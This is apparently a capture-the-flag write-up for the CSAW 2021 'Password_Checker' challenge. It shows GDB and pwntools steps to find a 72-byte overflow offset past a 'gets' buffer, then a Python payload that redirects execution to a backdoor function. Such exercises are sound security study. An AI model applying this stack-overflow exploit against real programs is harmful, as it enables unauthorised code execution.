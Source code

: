 # Password_Checker
`Main` is a fairly boring function that only calls `init` and `password_checker` then returns.

![pic](2021-09-12_13-31.png)

`Password_checker` executes a string comparison to a hard coded value then returns. However it uses `gets` and reads an arbitray amount of data.

![pic](2021-09-12_13-30.png) 

GDB-GEF disass of `password_checker`:

![pic](2021-09-12_13-33.png)

Ghidra shows the buffer size of local_48 as 60. While 61 bytes will overflow the buffer there is still some distance to `$rip`. Through testing it is found that the total offset to `$rip` is 72.

We can find the offset inside GDB with pwntools:

Set a breakpoint immediently following `gets`: `b *0x00000000004011f1`

Then generate your cyclic pattern: `! python3 -c "import pwn; print(pwn.cyclic(100, n=8))" > cyclic`

Execute the program with cyclic as the input `r < cyclic`

Examine the value of `$rbp`: `x/s $rbp`

Query the offset in 8 byte chunks: `! python3 -c "import pwn; print(pwn.cyclic_find('aaiaaaaa', n=8))"`

The beginning of `$rbp` is 62 + 8 bytes for the length of `$rbp` to equel 70

Through manual `demsg` inspection I found there was 2 extra byts of padding to equal a total of 72 bytes as the offset

From here we control `$rip` and write out the next 8 bytes as the location of `back_door`: 0x0000000000401172

Our final [payload](https://github.com/CR15PR/CSAW2021/blob/main/warm-up/Password_Checker/solver.py) looks like this:
  ```back_door = p64(password_elf.symbols.backdoor)
  OFFSET = 72
  junk = b"A" * OFFSET
  
  payload = [
    junk,
    back_door,
  ]

  payload = b''.join(payload)
  p.sendline(payload)```

